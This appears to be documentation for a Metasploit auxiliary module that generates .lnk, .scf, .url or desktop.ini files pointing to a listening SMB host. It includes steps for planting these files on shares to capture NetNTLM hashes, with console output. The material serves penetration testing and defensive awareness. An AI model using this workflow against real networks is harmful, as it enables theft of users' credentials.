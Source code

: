 This module dependent on the given filename extension creates either a .lnk, .scf, .url, desktop.ini file which includes a reference to 
the the specified remote host, causing SMB connections to be initiated from any user that views the file. This allows for NetNTLM hashes to be captured
by a listening user.

## Vulnerable Application

Microsoft Windows

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/multidrop```
  4. Customise Options as required
  5. Do: ```run```
  6. A file pointing back to the listening host will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Upload the document to an open share or similar and wait for hashes.

## Options

**FILENAME**
This option allows you to customise the generated filename and filetpye that is generated.

To generate desktop.ini configure a filename of desktop.ini
To generate a scf file configure a filename of anyname.scf
To generate a url file configure a filename of anyname.url
To generate a lnk file configure a filename of anyname.lnk

Filetype generation is based on the file extension.

**LHOST**
This option allows you to set the IP address of the SMB Listener that the document points to
This can be changed using set LHOST 192.168.1.25


## Scenarios

### Microsoft Windows

Console output

```
  msf auxiliary(multidrop) > show info

       Name: Windows SMB Multi Dropper
     Module: auxiliary/multidrop
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Richard Davy - secureyourit.co.uk
  Lnk Creation Code by Mubix

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FILENAME  test.url         yes       Filename - supports .lnk, .scf, .url, desktop.ini
  LHOST     192.168.1.19     yes       Host listening for incoming SMB/WebDAV traffic

Description:
  This module dependent on the given filename extension creates either 
  a .lnk, .scf, .url, desktop.ini file which includes a reference to 
  the the specified remote host, causing SMB connections to be 
  initiated from any user that views the file.

References:
  https://malicious.link/blog/2012/02/11/ms08_068-ms10_046-fun-until-2018
  https://malicious.link/post/2012/2012-02-19-developing-the-lnk-metasploit-post-module-with-mona/


msf auxiliary(multidrop) > exploit

[+] desktop.ini stored at /root/.msf4/local/desktop.ini
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.lnk
filename => test.lnk
msf auxiliary(multidrop) > exploit

[+] test.lnk stored at /root/.msf4/local/test.lnk
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.scf
filename => test.scf
msf auxiliary(multidrop) > exploit

[+] test.scf stored at /root/.msf4/local/test.scf
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.url
filename => test.url
msf auxiliary(multidrop) > exploit

[+] test.url stored at /root/.msf4/local/test.url
[] Auxiliary module execution completed
msf auxiliary(multidrop) > back
 
```
